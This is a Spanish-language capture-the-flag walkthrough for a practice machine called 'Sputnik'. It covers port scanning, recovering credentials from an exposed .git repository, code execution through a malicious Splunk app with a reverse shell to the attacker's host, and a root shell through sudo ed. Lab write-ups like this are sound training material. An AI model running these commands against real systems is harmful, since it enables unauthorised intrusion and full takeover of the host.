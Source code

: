 # Sputnik

Tags: [[_webExploitation]],[[_infoLeakage]],[[_sudoersAbusing]]

## Reconocimiento

arp-scan -I ens33 --localnet
Determino la IP de la máquina víctima.

Coloco la IP de la máquina víctima en un lugar visible, con
settarget "192.168.0.11 Sputnik" :    en usuario normal.

Hacer una traza ICMP para ver si la máquina está activa o no, con un ping.
Y con el ttl por defecto, puedo ver que es una máquina Linux (aunque se puede modificar).

Si está encendida, creamos los directorios de trabajo.

Una vez con eso, hay que empezar a hacer un reconocimiento de la máquina y sus puertos.
Con nmap:
nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 192.168.0.11 -oG allPorts
Con esto determino los puetos abiertos, para filtrar rápido por los mismos, y continuar con el escaneo.

Con una utilidad, filtro por los puertos.

Con los puertos ya a la mano, los escaneo.
Con nmap:
nmap -sC -sV -p8089,55555,61337 192.168.0.11 -oN targeted

En base a las versiones, trato de detectar el codename, para saber de qué SO se trata.
En launchpad, dice que es Ununtu Bionic.


## Enumeration

Parece que son págnias, o puertos abiertos para http.
Usaré whatweb para ver esos puertos.

+Un puerto da error.
(Ahorita vemos eso)
Ahora viendo bien, seguramente es por el certificado SSL. Pero no me dice que pueda continuar bajo mi riesgo.

+El otro parece que es del Flappy Bird. Así es.
Checamos el código fuente. Es solo el juego.
Antes de fuzzear por directorios, recursos, etc., sigamos viendo lo demás.

+El tercero trae muchas cosas. Me hace redirects.
Este me redirige a un panel de login.

La mayoría habla de splunk.
(Podría pensar en contraseñas por defecto)
Es una tecnología para monitorizar una red, para ver actividad inusual.

Viendo el código fuente del login panel. Pero nada en especial.

Probaremos las contraseñas por defecto. Pero en un principio no.
Algo está claro, hay que entrar dentro de ahí.

Sin embargo, como vamos a fuzzear la página, primero lo hacemos en la página donde está el Flappy.

Antes que nada.
En el mismo escaneo, se ve que hay un directorio en el Flappy.
Podríamos recomponer el proyecto de github, para en local ver todo.

----
<span style="color:#379075">https://github.com/arthaud/git-dumper</span>
Siempre que veamos un .git, hay que pensar en herramientas como esta.
<span style="color:#379075">Lo clonamos en el directorio de content.</span>
<span style="color:#379075">Hacemos primero:</span>
<span style="color:#379075">pip3 install -r requirements.txt :    para instalar los requerimientos de python. (Al final lo hice con pip normal).</span>
<span style="color:#379075">https://www.youtube.com/watch?v=5y_vJLf6oEA
Muy buen tuto para lo de las dependencias.
Me crea la carpeta dependencias en el directorio actual.</span>

<span style="color:#379075">Con el script:
python3 git_dumper.py http://192.168.0.11:55555/.git/ project</span>
<span style="color:#379075">Para traerlo al directorio actual.</span>


Otro script.
https://github.com/Ebryx/GitDump?tab=readme-ov-file 
git clone https://github.com/Ebryx/GitDump :    para clonarme el repositorio.
Seguí los pasos, y pude recomponer el proytecto. (Aunque estaba corrupto xd).

------

O al ver, en el directorio .git, el log y HEAD, hay un repositorio, lo habíamos visto ya de antes, nos podríamos clonar ese.

git clone https://github.com/ameerpornillos/flappy.git
Y es lo mismo que si lo recompusiéramos.^^

Del log donde se borró un archivo.
git ls-tree 5c5d8adcf57267bc0a936a7db21ddb90fcbcd9ca
Del commit new file.
Podemos ver que había un archivo secreto.
Le hacemos un show a su commit
git show 121cce9038070c86caa60707bc312d8a478d903f

Y obtenemos lo que parecen un usuario y contraseña.
Lo guardamos.

Probaríamos entrar por ssh, o por algún lado, si tuviera un servicio activo, pero no es el caso, entonces podríamos probar el el login panel que habíamos visto desde antes.
## Explotación Splunk

Viendo la página por dentro, veo que hay algo de Apps, y en HackTricks hay un RCE creando una Aplicación custom.

Si buscamos exploit splunk github
Aparece uno interesante.
https://github.com/TBGSecurity/splunk_shells
Entramos a los releases, descargamos el comprimido tar.gz
Y ese tenemos que subir como aplicación.

Una vez se sube, aparece junto a las demás hasta el final.
Configuramos los permisos para all apps..
Y con eso estaría de forma Global.

Y recordando que había un buscador, ahí es donde vamos a introducir código malicioso.

Nos ponemos en escucha:
nc -nlvp 445

Y en el buscador de la página: (como nos explica el github)
| revshell std 192.168.0.6 445
<span style="color:#379075">Nunca me funciona por el puerto 443 nada xd</span> 


Recibimos la reverse shell, y hacemos el tratamiento de la tty.
Por alguna razón no funciona. Así que nos enviamos una bash.
No tiene el parámetro -e de netcat, tiene un netcat antiguo.

Buscamos reverse shell monkey pentester.
Usamos la variante antigua.

Nos mandamos una bash (ahí sí se puede el puerto 443, curioso) y ya podemos hacer el tratamiento de la tty.

## Escalar prinvilegios

Una vez dentro, hay que investigar.
Verificar siempre qué usuario somos, y si estamos en la máquina objetvo.
Ver versiones de kernel.
uname -r
lsb_release -d :    -a también, con este comprobamos si nuestra conjetura era cierta, y en este caso sí, es Ubuntu Bionic.

Verificar con top.
Verificar con id.
Verificar sudo -l :    recorar siempresi tenía contraseñas que pueda reutilizar. Y ojo, en este caso sí se pudo.

Verificar usuarios.
usuario: kakeru
Entramos a su home. No hay cosas interesante.


Con el sudo -l y proporcionando la contraseña.
Podemos ejecutar un binario como el root. Porque tenemos privilegio asignado a nivel de sudoers.

Dicho binario, pues es un comando, hay que investigar qué es, qué hace, etc.
https://gtfobins.github.io/
Esta página contempla múltiples comandos.
El privilegio que tenemos es de (root).

Yo puedo hacer:
sudo ed :    no funciona si lo hago de forma relativa o absoluta.
Aunque no pase nada, se queda como en escucha, en la propia página nos dice que podemos poner:
!/bin/sh :    yo pongo bash

Y obtengo una bash como root.
